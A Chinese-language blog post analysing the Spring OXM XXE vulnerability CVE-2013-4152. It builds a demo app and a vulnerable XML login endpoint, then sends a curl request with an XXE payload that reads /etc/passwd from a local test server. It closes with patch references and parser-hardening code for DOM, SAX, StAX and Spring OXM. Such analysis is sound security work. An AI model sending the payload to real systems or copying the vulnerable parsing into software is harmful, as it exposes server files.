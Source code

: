 ```yaml
---
layout: post  
title: "2018-01-26-Spring XXE漏洞(CVE-2013-4152,CVE-2014-0225)"  
date: 2018-01-26  
description: "java漏洞"  
tag: 漏洞分析
---
```

  #介绍  
老漏洞了，原理也很简单，随便分析一波。  
漏洞编号为CVE-2013-4152，根据官方提示，xxe漏洞，漏洞的位置包括oxm，嗯，现学现卖，直接翻到文档学习一波
https://docs.spring.io/spring/docs/current/spring-framework-reference/data-access.html#oxm
根据官方写一个demo  

    ````
    public class Application {
    private static final String FILE_NAME = "src/main/java/test/settings.xml";
    private Settings settings = new Settings();
    private Marshaller marshaller;
    private Unmarshaller unmarshaller;

    public void setMarshaller(Marshaller marshaller) {
        this.marshaller = marshaller;
    }

    public void setUnmarshaller(Unmarshaller unmarshaller) {
        this.unmarshaller = unmarshaller;
    }

    public void saveSettings() throws IOException {
        FileOutputStream os = null;
        try {
            os = new FileOutputStream(FILE_NAME);
            this.marshaller.marshal(settings, new StreamResult(os));
        } finally {
            if (os != null) {
                os.close();
            }
        }
    }

    public void loadSettings() throws IOException {
        FileInputStream is = null;
        try {
            is = new FileInputStream(FILE_NAME);
            this.settings = (Settings) this.unmarshaller.unmarshal(new StreamSource(is));
        } finally {
            if (is != null) {
                is.close();
            }
        }
    }

    public static void main(String[] args) throws IOException {
        ApplicationContext appContext =
                new ClassPathXmlApplicationContext("applicationContext.xml");
        Application application = (Application) appContext.getBean("application");
        application.saveSettings();
        application.loadSettings();
    }

	}
----------------------------------	

    ````
    public class Settings {
    private boolean fooEnabled;

    public boolean isFooEnabled() {
        return fooEnabled;
    }

    public void setFooEnabled(boolean fooEnabled) {
        this.fooEnabled = fooEnabled;
    }

	}
    
    ````
    
----------------------------------
测试完xml解析之后，写了一个web项目，验证一下，核心代码如下:
    
    ````
    @Controller
	public class XmlController {
    @RequestMapping(value = "/login", method = RequestMethod.POST, consumes = "application/xml")
    @ResponseBody
    public String login(@RequestBody User user) {
        String username = user.getUserName();
        String userpassword = user.getUserPassword();
        String result;

        if (username.equals("admin") && userpassword.equals("admin888")){
            result = "{'status':'ok', 'message': 'login success', 'username': " + username+ "}";
        }else {
            result = "{'status':'error', 'message': 'login fail', username': " + username+ "}";
        }
        return result;
    }

	}
    ````
-----------------------------------

    ````
    @XmlRootElement(name = "user")
public class User {
    private String userId;
    private String userName;
    private String userPassword;

    @XmlElement
    public String getUserPassword() {
        return userPassword;
    }

    public void setUserPassword(String userPassword) {
        this.userPassword = userPassword;
    }

    @XmlElement
    public String getUserId() {
        return userId;
    }

    public void setUserId(String userId) {
        this.userId = userId;
    }

    @XmlElement
    public String getUserName() {
        return userName;
    }

    public void setUserName(String userName) {
        this.userName = userName;
    }
	}
    ````
   
-------------------------------------

正常测试XML如下

curl -i -X POST -H "Content-Type:application/xml" -d "<?xml version=\"1.0\" encoding=\"UTF-8\"?><user><userName>admin</userName><userPassword>admin888</userPassword></user>" http://127.0.0.1:8080/CVE-2013-4152/login

 xml：

<?xml version=\"1.0\" encoding=\"UTF-8\"?><user><userName>admin</userName><userPassword>admin</userPassword></user>

![](http://ohsqlm7gj.bkt.clouddn.com/18-1-26/89299704.jpg)

有回显
curl -i -X POST -H "Content-Type:application/xml" -d "<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<!DOCTYPE a [<!ENTITY xxe2 SYSTEM \"file:///etc/passwd\">]>
<user><userName>&xxe2;</userName><userPassword>admin</userPassword></user>" http://127.0.0.1:8080/CVE-2013-4152/login
    ![](http://ohsqlm7gj.bkt.clouddn.com/18-1-26/57761901.jpg)
    
漏洞造成的原因是由于unmarshal函数中直接解析xml文件,没什么好分析的。

官方修复的补丁
https://github.com/spring-projects/spring-framework/pull/317/commits/2843b7d2ee12e3f9c458f6f816befd21b402e3b9

指的说明的是网上很多关于xxe漏洞的修复方案中只提到
    
    DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
	dbf.setExpandEntityReferences(false);
	
各种类型的具体修复方案见下面
DOM

    DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
    documentBuilderFactory.setExpandEntityReferences(false);
    DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
    Document document = documentBuilder.parse(externalSource);

SAX

    XMLReader xmlReader = XMLReaderFactory.createXMLReader();
    xmlReader.setFeature("http://xml.org/sax/features/external-general-entities", false);
    xmlReader.parse(new InputSource(externalSource));

StAX

    XMLInputFactory factory = XMLInputFactory.newInstance();
    factory.setProperty(XMLInputFactory.IS_REPLACING_ENTITY_REFERENCES, false);
    XMLStreamReader reader = factory.createXMLStreamReader(externalSource);


Spring OXM

    DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
    documentBuilderFactory.setExpandEntityReferences(false);
    DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
    Document document = documentBuilder.parse(externalSource);
    DOMSource source = new DOMSource(document);
    Jaxb2Marshaller jaxb2Marshaller = ...
    Object unmarshalled = jaxb2Marshaller.unmarshal(source);



CVE-2013-4152补丁设置xmlReader.setFeature("http://xml.org/sax/features/external-general-entities",false);可以防止外部实体被解析  

![](http://ohsqlm7gj.bkt.clouddn.com/18-1-26/60015109.jpg)

  ###参考文档  
http://blog.csdn.net/scmrpu/article/details/50423701
https://security.tencent.com/index.php/blog/msg/69






